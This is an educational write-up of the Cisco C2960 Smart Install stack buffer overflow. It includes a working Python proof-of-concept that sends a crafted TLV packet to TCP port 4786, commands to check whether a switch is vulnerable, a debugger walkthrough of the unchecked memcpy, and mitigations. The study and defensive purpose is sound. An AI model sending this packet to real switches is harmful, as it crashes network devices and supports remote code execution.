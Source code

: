 ### INTRODUCTION
why is C2960 targeted by attackers/security researchers?
* affordable and wide spread model

what is the main characteristic of C2960 to be easy to exploit?
* there're features listed online but one important feature of Cisco IOS is its behavior in case an exception condition occurs if something goes wrong, Cisco IOS reboots a device

### REVISION
what is buffer?
* buffer is a small memory allocated specifically for input, used when a process or a program is executed

what is buffer overflow attack?
* when attacker enters arbitrary input to buffer, long enough to overrun the buffer's boundary and overwrite adjacent memory location
* stack based buffer overflow in short is also known as buffer overflow

why do buffer overflow take place?
* mostly due to bad programming written, use of unsafe c function and unsanitized input

what is watchdog?
* a timer which automatically reboot the system if it detects some programs are not working




### SETUP
`Host A         <-----------------> C2960 SI PoE 24 Switch (c2960-lanlitek9-mz.122-58.SE2.bin)`<br/>
`192.168.200.2      <----------------->  192.168.200.1`

### HOW TO CHECK IF SWITCH IS VULNERABLE
`SW>show vstack config`<br/>
`SW>show tcp brief all`




### smi_ibc_init_discovery_BoF.py.PY BREAKDOWN

    import socket 
    import struct 
    from optparse import OptionParser 

    # Parse the target options 
    parser = OptionParser() 
    parser.add_option("-t", "--target", dest="target", help="Smart Install Client", default="192.168.1.1")  
    parser.add_option("-p", "--port", dest="port", type="int", help="Port of Client", default=4786)  
    (options, args) = parser.parse_args() 

    def craft_tlv(t, v, t_fmt='!I', l_fmt='!I'): 
      return struct.pack(t_fmt, t) + struct.pack(l_fmt, len(v)) + v 

    def send_packet(sock, packet): 
      sock.send(packet)   

    def receive(sock):  
      return sock.recv() 

    if __name__ == "__main__": 

    print "[*] Connecting to Smart Install Client ", options.target, "port", options.port 

    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    con.connect((options.target, options.port)) 

    payload = 'BBBB' * 44  
    shellcode = 'D' * 2048 

    data = 'A' * 36 + struct.pack('!I', len(payload) + len(shellcode) + 40) + payload 

    tlv_1 = craft_tlv(0x00000001, data)  
    tlv_2 = shellcode 

    hdr =  '\x00\x00\x00\x01'                                   # msg_from
    hdr += '\x00\x00\x00\x01'                                   # version
    hdr += '\x00\x00\x00\x07'                                   # msg_hdr_type
    hdr += struct.pack('>I', len(data))                         # data_length

    pkt = hdr + tlv_1 + tlv_2 

    print "[*] Send a malicious packet"  
    send_packet(con, pkt)



what is the objective of the script?
* the <SMI IBC Server Process> process contains a Smart Install Client implementation code
* the Smart Install Client starts a server on the TCP(4786) port (opened by default) to interact with the Smart Install Director
* a specially crafted malicious message ibd_init_discovery_msg for the stack-based buffer overflow occurs

what is struct.park(function)?
* it packs a list of values into a string representation of the specified type
* !'I' --> format string for network also means big-endian
* fmt ---> format string

what is tlv?
* encoding scheme used within the data communication protocol
* for data formatting. when we want to send data to receiver, we prepare a TLV package that contains Tag-Length-Value datas
  1. data type/tag
  2. data length/size
  3. data value/content of the data
  
* format string for big-endian ---> (>I) 
* 4+4+4+4=16bytes for hdr ----> header which consists of |msg-from|version|msg_hdr-type|data_length|
* 36+4+(4*44)=216bytes  ---> TLV Data Value
* a single packet consists of | header (16 bytes)| TLV_1 (224 bytes)|TLV (2048 bytes) |


### CRAFTED PACKET STRUCTURE FROM THE SCRIPT
![packet structure](https://user-images.githubusercontent.com/23307275/39845863-de67a538-542a-11e8-9c23-7d5b38e13e75.PNG)


### WIRESHARK PACKET SNIFFING
![wireshark1](https://user-images.githubusercontent.com/23307275/39845865-dec1d724-542a-11e8-9ece-42d45e9f5526.PNG)

<br/>

![wireshark2](https://user-images.githubusercontent.com/23307275/39845860-ddc64f62-542a-11e8-90f1-d5e0707524b8.PNG)


### FUNCTION OF EXPOLIT IS LOCATED
* smi_ibc_handle_ibd_init_discovery_msg, SUB_B258CC

![overview](https://user-images.githubusercontent.com/23307275/39845857-d822a452-542a-11e8-9c19-e39ffbe45655.PNG)
![sub_routine](https://user-images.githubusercontent.com/23307275/39845855-d7c60620-542a-11e8-8bf1-408e90fcfcf3.PNG)


  R3: ptr to the tlv_type <br/>
  R4: length of tlv <br/>
  R5: ptr to the 16 bytes header <br/>
  R6: ptr to the TLV data <br/>
 
  ![allr](https://user-images.githubusercontent.com/23307275/39849919-5343e194-5441-11e8-809d-e86cc2236fda.PNG)
  <br/>
  ![r5](https://user-images.githubusercontent.com/23307275/39849921-57100046-5441-11e8-84e5-4cd2514e0378.PNG)
  <br/>
  ![r6](https://user-images.githubusercontent.com/23307275/39845864-de93c1fe-542a-11e8-922d-35b208c18658.PNG)
  <br/>

### LOGIC AND THE EXACT PLACE OF EXPLOIT

Focus 1:
``if (tlv_type == 1) {``
  ``#read tlv_length information``
``}``

Focus 2:
`if (tlv_length != 0) {`
  `#size = tlv_length     <-----(LOOPHOLE) NO VALIDATION CHECK`
`}

Focus 3:
`if (size != 0) {`
 `do {`
   `memcpy (src, dest, size);`
   `size-=1;`
 `} while (size!=0)`
`}`

* size is saved as a parameter for later memcpy (src, dest, size)
* tlv-type number assignment, http://irl.cs.ucla.edu/~cawka/spec/types.html
* size is the number of bytes to be copied
* fetch and copy data without verification
* just copy without checking if the size of the data exceed the allocated size of buffer <---- buffer overflow will occurs

### BEFORE AND AFTER BUFFER OVERFLOW IN LOW-LEVEL
![from the code logic](https://user-images.githubusercontent.com/23307275/39845862-de324c8a-542a-11e8-9df2-02a10f7cfb7d.PNG)

  R3 is the buffer length of 0x58 #dst <br/>
  R4 is the content of the TlL data #scr <br/>
  R5 is the tlv length #size <br/>

  memcpy (src, dest, size)

* 0xd8 (216 bytes) to be copied to the allocated 0x58 (88 bytes) buffer  <--- buffer overflow occurs
* R4 (data content) to R3 (buffer) do while the size is not 0 (referenced back to focus 1)

![before overflow](https://user-images.githubusercontent.com/23307275/39845861-de072bfe-542a-11e8-8e33-585ee1d6aace.PNG)

* the figure above shows that the contents of 0xd8 bytes starting from 0x318e890 will be copied into the buffers starting from 0x3df24a8 in the stack frame.

 <br/>
![after](https://user-images.githubusercontent.com/23307275/39850049-fb82c5dc-5441-11e8-918c-16ed55ac8c87.PNG)
 <br/>
 
* the above figure shows the contents of the function stack frame after the memcpy operation. The stack frame of this function is 0x58 bytes in size. After the function is overwritten by 0x42424242, the pointer of the execution code area is skipped resulting a buffer overflow situation. 

* the content of the register changes along with the CPU instructions
* register is a small set of data holding places that are part of the computer processor
* stack based buffer flow in this case
* conclude (summarize) the result of crash

### MIGITATIONS
1. no vstack command to disable the smart installed function (cannot be persistent, require reconfigure after reboot)
2. use ACL to filter traffic from tcp port 4786, or limit through Control Panel Policy (CoPP)
3. patch and upgrade
4. use new plug and play (Cisco Network Plug and Play) solution instead

### References
* https://embedi.com/blog/cisco-smart-install-remote-code-execution/
* https://www.anquanke.com/post/id/105473
